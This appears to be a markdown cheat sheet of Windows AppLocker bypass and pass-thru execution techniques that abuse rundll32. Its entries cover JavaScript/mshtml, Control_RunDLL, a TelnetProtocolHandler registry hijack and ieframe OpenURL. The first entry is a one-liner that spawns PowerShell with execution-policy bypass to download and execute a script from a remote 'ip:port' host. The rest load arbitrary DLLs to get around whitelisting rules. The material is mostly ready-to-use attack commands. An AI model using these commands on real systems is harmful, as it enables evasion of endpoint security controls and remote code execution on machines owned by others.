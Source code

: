 # Applocker Bypass
https://pentestlab.blog/2017/05/23/applocker-bypass-rundll32/

The following command needs to be executed from the command prompt. If the command prompt is locked then the method that is described below can be used to unlock the cmd.
```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ip:port/');"
```

The utility rundll32 can then load and execute the payload that is inside the pentestlab.dll.
```
rundll32 shell32.dll,Control_RunDLL C:\Users\pentestlab.dll
```
## Open Command Prompt
Since the rundll32 is a trusted Microsoft utility it can be used to load the cmd.dll into a process, execute the code on the DLL and therefore bypass the AppLocker rule and open the command prompt. The following two commands can be executed from the Windows Run:
```
rundll32 C:\cmd.dll,EntryPoint
```
OR
```
rundll32 shell32.dll,Control_RunDLL C:\cmd.dll
```
## Open Registry Editor


The following commands can load and run the regedit.dll via rundll32 and therefore bypass the AppLocker rule.
```
rundll32 C:\regedit.dll,EntryPoint
```
OR
```
rundll32 shell32.dll,Control_RunDLL C:\regedit.dll
```


# PASS-THRU COMMAND EXECUTION WITH ‘TelnetProtocolHandler’
https://twitter.com/nas_bench/status/1432781693279248390

1. create "telnet.exe" key in the "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths" registry
2. Set the "Default" key to any executable you want to run. 
3. Call it in CMD by running:
```
rundll32.exe url.dll,TelnetProtocolHandler
```

# PASS-THRU COMMAND EXECUTION WITH ‘OPENURL’
https://bohops.com/2018/03/17/abusing-exported-functions-and-exposed-dcom-interfaces-for-pass-thru-command-execution-and-lateral-movement/
### URL FILE EXAMPLE (‘CALC.URL’)
```
[InternetShortcut]
URL=file:///c:\windows\system32\calc.exe
```
### COMMAND EXAMPLES
```
rundll32.exe ieframe.dll, OpenURL <path to local URL file>
```